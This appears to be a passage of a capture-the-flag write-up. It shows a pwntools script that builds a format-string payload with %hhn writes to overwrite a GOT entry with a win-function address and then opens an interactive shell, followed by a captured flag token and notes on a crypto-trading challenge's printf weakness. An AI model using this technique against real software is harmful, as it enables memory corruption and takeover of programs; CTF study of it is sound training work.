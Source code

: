 ```
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p.recvuntil(b'You say: ', drop=True)

# Win function at    0x08048536
# printf function at 0x080483b0
#                    0x8049c18
# sprintf            0x08048400
# fgets              0x080483c0
target = 0x8049c18
payload = p32(target)
payload += p32(target + 1)
payload += p32(target + 2)
payload += p32(target + 3)

write_36 = 0x36 - len(payload)
payload += f'%{write_36}x%3$hhn'.encode()

write_85 = 0x100 + 0x85 - 0x36
payload += f'%{write_85}x%4$hhn'.encode()

write_04 = 0x100 + 0x04 - 0x85
payload += f'%{write_04}x%5$hhn'.encode()

write_08 = 0x100 + 0x08 - 0x04
payload += f'%{write_08}x%6$hhn'.encode()

p.sendline(payload)

p.interactive()
```

elonmusk
==================================================
FLag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMy1lbG9ubXVzayIsImlwIjoiMTQ0LjEzNi4yOC4zNiIsInNlc3Npb24iOiIxZDUyZWFmYS1lNWM1LTRiOWMtODhjOS0zOWIxZGVmODUzZTkifQ.7JjQKTSDoV69DzDvbW3ojG8YuTg2Ca2GgWueeJUbk7M}
General overview of problems faced
-------------------------------------------------
Upon startup, you are asked a name (input)
Input terminates early if you use space
After that, options:
(t)travel -> travel to various marketplaces
(g)amble -> gamble some coin - Fibonacci question? wow...
May need a fibonacci checker or just keep gambling until lucky
(b)uy -> buy crypto
(s)ell -> sell crypto
(q)uit -> quit 
Binary is more massive than usual.
There's a win function
Need to find vulnerable printf format strings: One found when you win a gamble.
Need overwrite a function in the GOT table.